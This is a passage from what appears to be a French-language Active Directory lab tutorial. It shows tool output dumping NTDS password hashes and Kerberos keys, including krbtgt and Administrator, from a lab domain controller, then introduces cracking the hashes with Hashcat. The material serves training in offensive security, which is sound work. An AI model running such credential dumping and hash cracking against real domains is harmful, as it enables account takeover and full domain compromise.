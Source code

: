 ```
SMB         10.129.201.57    445     DC01           krbtgt:502:aad3b435b51404eeaad3b435b51404ee:cbb8a44ba74b5778a06c2d08b4ced802:::
SMB         10.129.201.57    445     DC01           inlanefrieght.local\jim:1104:aad3b435b51404eeaad3b435b51404ee:c39f2beb3d2ec06a62cb887fb391dee0:::
SMB         10.129.201.57    445     DC01           WIN-IAUBULPG5MZ:1105:aad3b435b51404eeaad3b435b51404ee:4f3c625b54aa03e471691f124d5bf1cd:::
SMB         10.129.201.57    445     DC01           WIN-NKHHJGP3SMT:1106:aad3b435b51404eeaad3b435b51404ee:a74cc84578c16a6f81ec90765d5eb95f:::
SMB         10.129.201.57    445     DC01           WIN-K5E9CWYEG7Z:1107:aad3b435b51404eeaad3b435b51404ee:ec209bfad5c41f919994a45ed10e0f5c:::
SMB         10.129.201.57    445     DC01           WIN-5MG4NRVHF2W:1108:aad3b435b51404eeaad3b435b51404ee:7ede00664356820f2fc9bf10f4d62400:::
SMB         10.129.201.57    445     DC01           WIN-UISCTR0XLKW:1109:aad3b435b51404eeaad3b435b51404ee:cad1b8b25578ee07a7afaf5647e558ee:::
SMB         10.129.201.57    445     DC01           WIN-ETN7BWMPGXD:1110:aad3b435b51404eeaad3b435b51404ee:edec0ceb606cf2e35ce4f56039e9d8e7:::
SMB         10.129.201.57    445     DC01           inlanefrieght.local\bwilliamson:1125:aad3b435b51404eeaad3b435b51404ee:bc23a1506bd3c8d3a533680c516bab27:::
SMB         10.129.201.57    445     DC01           inlanefrieght.local\bburgerstien:1126:aad3b435b51404eeaad3b435b51404ee:e19ccf75ee54e06b06a5907af13cef42:::
SMB         10.129.201.57    445     DC01           inlanefrieght.local\jstevenson:1131:aad3b435b51404eeaad3b435b51404ee:bc007082d32777855e253fd4defe70ee:::
SMB         10.129.201.57    445     DC01           inlanefrieght.local\jjohnson:1133:aad3b435b51404eeaad3b435b51404ee:161cff084477fe596a5db81874498a24:::
SMB         10.129.201.57    445     DC01           inlanefrieght.local\jdoe:1134:aad3b435b51404eeaad3b435b51404ee:64f12cddaa88057e06a81b54e73b949b:::
SMB         10.129.201.57    445     DC01           Administrator:aes256-cts-hmac-sha1-96:cc01f5150bb4a7dda80f30fbe0ac00bed09a413243c05d6934bbddf1302bc552
SMB         10.129.201.57    445     DC01           Administrator:aes128-cts-hmac-sha1-96:bd99b6a46a85118cf2a0df1c4f5106fb
SMB         10.129.201.57    445     DC01           Administrator:des-cbc-md5:618c1c5ef780cde3
SMB         10.129.201.57    445     DC01           DC01$:aes256-cts-hmac-sha1-96:113ffdc64531d054a37df36a07ad7c533723247c4dbe84322341adbd71fe93a9
SMB         10.129.201.57    445     DC01           DC01$:aes128-cts-hmac-sha1-96:ea10ef59d9ec03a4162605d7306cc78d
SMB         10.129.201.57    445     DC01           DC01$:des-cbc-md5:a2852362e50eae92
SMB         10.129.201.57    445     DC01           krbtgt:aes256-cts-hmac-sha1-96:1eb8d5a94ae5ce2f2d179b9bfe6a78a321d4d0c6ecca8efcac4f4e8932cc78e9
SMB         10.129.201.57    445     DC01           krbtgt:aes128-cts-hmac-sha1-96:1fe3f211d383564574609eda482b1fa9
SMB         10.129.201.57    445     DC01           krbtgt:des-cbc-md5:9bd5017fdcea8fae
SMB         10.129.201.57    445     DC01           inlanefrieght.local\jim:aes256-cts-hmac-sha1-96:4b0618f08b2ff49f07487cf9899f2f7519db9676353052a61c2e8b1dfde6b213
SMB         10.129.201.57    445     DC01           inlanefrieght.local\jim:aes128-cts-hmac-sha1-96:d2377357d473a5309505bfa994158263
SMB         10.129.201.57    445     DC01           inlanefrieght.local\jim:des-cbc-md5:79ab08755b32dfb6
SMB         10.129.201.57    445     DC01           WIN-IAUBULPG5MZ:aes256-cts-hmac-sha1-96:881e693019c35017930f7727cad19c00dd5e0cfbc33fd6ae73f45c117caca46d
SMB         10.129.201.57    445     DC01           WIN-IAUBULPG5MZ:aes128-cts-hmac-sha1-
     [+] Dumped 61 NTDS hashes to /home/bob/.cme/logs/DC01_10.10.15.30_2022-01-19_133529.ntds of which 15 were added to the database
```
## Craquage des hachages et obtention d'informations d'identification
Nous pouvons procéder à la création d'un fichier texte contenant tous les hachages NT, ou nous pouvons copier et coller individuellement un hachage spécifique dans une session de terminal et utiliser Hashcat pour tenter de déchiffrer le hachage et un mot de passe en texte clair.

